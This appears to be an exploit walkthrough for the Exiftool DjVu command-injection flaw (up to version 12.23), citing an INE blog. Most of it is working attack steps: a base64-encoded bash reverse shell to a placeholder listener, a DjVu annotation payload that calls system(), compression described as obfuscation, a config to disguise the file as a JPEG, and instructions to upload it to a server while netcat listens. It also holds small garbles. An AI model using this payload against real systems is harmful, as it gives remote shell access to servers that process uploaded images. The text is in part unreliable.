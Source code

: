 Introduction:

Improper neutralization of user data in the Djvu file format in Exiftool version up to 12.23 allows arbitrary code execution when parsing the malicious image. Simply upload a malicious image to the website or server in order to create a reverse shell connection 

Commands:

Create a tcp reverse shell and encode in base64 format:

$echo ‘sh -i >& /dev/tcp/<lhost>/<lport> 0>&1' | base64

Create a payload file: 

	$cat payload
(metadata "\c${system('echo <base64_format_shell> | base64 -d | bash')};")

Compress the payload file to obfuscate the code

$bzz payload payload.bzz

Making .djvu file using djvumake utility
	
	It will execute id command when someone tries to analyze it with Exiftool.

$djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# INFO = Anything in the format 'N,N' where N is a number 
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as a  background image 
# ANTz = Will write the compressed annotation chunk with the input file 

Check the malicious file behavior 

$exiftool exploit.djvu



Exiftool version 12.23 is vulnerable to command Injection vulnerability. It successfully executed the command id while analyzing the exploit.djvu file using the Exiftool. 
Create a config file to convert .djvu file to .jpg file

	$cat configfile
	
%Image::ExifTool::UserDefined = (
    		#All EXIF tags are added to the Main table, and WriteGroup is used to
    		#specify where the tag is written (default is ExifIFD if not specified):
    		'Image::ExifTool::Exif::Main' => {
        			Example 1.  EXIF:NewEXIFTag
      		 	0xc51b => {
            			Name => 'HasselbladExif',
            			Writable => 'string',
            			WriteGroup => 'IFD0',
       			 },
        			# add more user-defined EXIF tags here...
   		 },
);
1; #end%


Convert the .djvu file into .jpg file 

$exiftool -config configfile '-HasselbladExif<=exploit.djvu' <image.jpeg>

# configfile = The name of our configuration file
# -HasselbladExif = Tag name that are specified in the config file  
# exploit.djvu = Our exploit, previously made with djvumake

Start the netcat listener on the same <lport> port and upload an image file.
	nc -lvp <lport>

Conclusion: 

It successfully exploited exiftool's vulnerability (Exiftool’s mishandling of Djvu files) that allows an after to perform a command injection using a malicious image. 



Ine. (n.d.). Exiftool Command Injection (CVE-2021-22204). INE. https://ine.com/blog/exiftool-command-injection-cve-2021-22204

